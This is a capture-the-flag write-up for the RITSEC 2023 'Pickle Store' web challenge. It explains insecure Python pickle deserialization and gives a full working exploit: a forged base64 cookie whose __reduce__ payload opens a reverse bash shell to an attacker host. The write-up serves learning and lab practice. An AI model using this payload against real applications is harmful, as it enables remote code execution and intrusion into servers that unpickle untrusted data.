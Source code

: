 # Pickle Store (RITSEC 2023 - Web)

**Challenge description**: "New pickles just dropped! Check out the store."<br>
**Challenge date**: ven, 31 Mar. 2023, 16:00 UTC — dom, 02 Apr. 2023, 16:00 UTC<br>
**Challenge points**: 223<br>

## Involved Vulnerability

The server of this challenge uses the Python module called *pickle*, which is used for serializing (“*Pickling*”) and deserializing (“*Unpickling*”) Python objects' structure (see [[1]](#1)). This module is vulnerable to RCE during unpickling of class instances (objects). Classes can be defined to contain methods that can be called during the unpickling process to specify how they should be unpickled. One of these methods is *\_\_reduce()\_\_*.<br>
As evidenced by [[1]](#1):<br>

>The \_\_reduce\_\_() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”).<br>
If a string is returned, the string should be interpreted as the name of a global variable. \[...\]<br>
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:<br> - A **callable object** that will be called to create the initial version of the object.<br> - A **tuple of arguments** for the callable object. An empty tuple must be given if the callable does not accept any argument.<br> - \[...\]
A Python function is a callable object. So, if the attacker defines a class like the one below, pickles its instance and send the pickled object to the server, this will execute the specified function with the parameters given in the tuple.
```python
class RCE:
    def __reduce__(self):
        return (function_name, (parameter_1,parameter_2,)) #if there is only 1 parameter: (parameter_1,)
```
## Exploring the challenge
This is the first thing we see as soon as we access the challenge:

![Pickle Store](https://user-images.githubusercontent.com/66698256/229376712-d235bbbb-0d59-4c3d-a9e0-ab0829107127.png)

If we click on one of the buttons (the first one, for example), we will be redirected to <code>/order</code>:

![Order executed](https://user-images.githubusercontent.com/66698256/229377403-7b7e14fd-62dd-46fd-9b15-5188b734f11d.png)

Clicking on the "New Order" button we will be redirected to the initial page. By inspecting the four buttons something interesting can be noticed:

![Cookie setting](https://user-images.githubusercontent.com/66698256/229377514-b38166dd-aa58-412f-866b-9b865f722abc.png)

When a button is clicked, a cookie called "*order*" is set to a base64 string containing a pickled object and sent to the server through a GET request to <code>/order</code>. Here the string is presumably read from the cookie, decoded, the pickled object unpickled and ultimately printed into the returned page (if a string). Thanks to this cookie the server knows which article (or pickle) the user has chosen to buy.<br>
If we take the cookie value defined in the event handler of the "Sweet Pickle" button, decode it and unpickle it, we'll understand better how all this works.

![Unpickling](https://user-images.githubusercontent.com/66698256/229381958-d871524b-304f-4e3b-932b-790bd8eba284.png)

As expected, the obtained object ("*sweetpickle*") is a string and it's the same visualized in the <code>/order</code> page.<br>
Thus we can pickle any object (not only strings), encode it in base64 and set the "*order*" cookie accordingly. Once recieved by the server at the <code>/order</code> endpoint, the string will be decoded, the pickled object unpickled and, if a string, printed on the returned page.

![Pickling](https://user-images.githubusercontent.com/66698256/229382473-c062a8e3-a07e-4b39-8ee6-72cf397041aa.png)

![Set forged cookie](https://user-images.githubusercontent.com/66698256/229382220-2c6b25ef-d00e-4681-8267-fa8c751e4892.png)

By reloading <code>/order</code> page the string "<code>AAAA</code>" will be printed out:

![AAAA](https://user-images.githubusercontent.com/66698256/229378762-be51dd0c-33b0-40c2-abcf-c1b41e340fde.png)

## Attack

The behaviour to be exploited is the insecure unpickling (or insecure deserialization) of particular pickled objects. What the application does with the output of the deserialization is of no interest to the attacker. A way to exploit the involved vulnerability is to spawn a reverse shell on the server through Python code. The *\_\_reduce\_\_()* method should be defined like this:

```python
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in pickle format).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
```
Variables <code>host</code> and <code>port</code> contain, respectively, the IP address (or domain name) and the port on which the attacker will listen for the spawned reverse shell. 
The complete exploit is the following:
```python
import pickle
import base64
import requests
import socket
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in the pickled object).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
pickled_bytes=pickle.dumps(RCE())    #Object instance ---> Pickle format (bytes)
pickled_base64_bytes = base64.b64encode(pickled_bytes)    #Pickle format (bytes) ---> Base64 encoding (bytes)
pickled_base64_string = pickled_base64_bytes.decode('ascii')   #Base64 encoding (bytes) ---> Base64 encoding (string)
response=requests.get("https://pickles-web.challenges.ctf.ritsec.club/order",cookies={"order":pickled_base64_string})
print(response.text)
```
In order to execute a reverse shell a service like *ngrok* can be used. In this example we will listen on port <code>9001</code> of our own machine, but, for the server, we will listen on port <code>19945</code> at <code>4.tcp.eu.ngrok.io</code> (*ngrok* will redirect traffic on its port to ours). So:

![Listening_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229460262-ab932d54-cd3b-4129-8e6a-0414c33c22e6.png)

Then we'll execute the exploit:

![Exploit](https://user-images.githubusercontent.com/66698256/229460307-60e25c2c-305a-493c-a2e4-e2c2553d8721.png)

![Spawned_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229456613-76d66a6c-1468-4e23-8626-c1c79855f29c.png)

Reverse shell spawned! The flag is inside <code>/flag</code>.

![Flag](https://user-images.githubusercontent.com/66698256/229458939-a3ca621a-0721-4edf-8ae2-a1709a4c9edd.png)

Flag is <code>RS{TH3_L345T_53CUR3_P1CKL3}</code>.




## References
<a id="1">[1]</a> 
https://docs.python.org/3/library/pickle.html
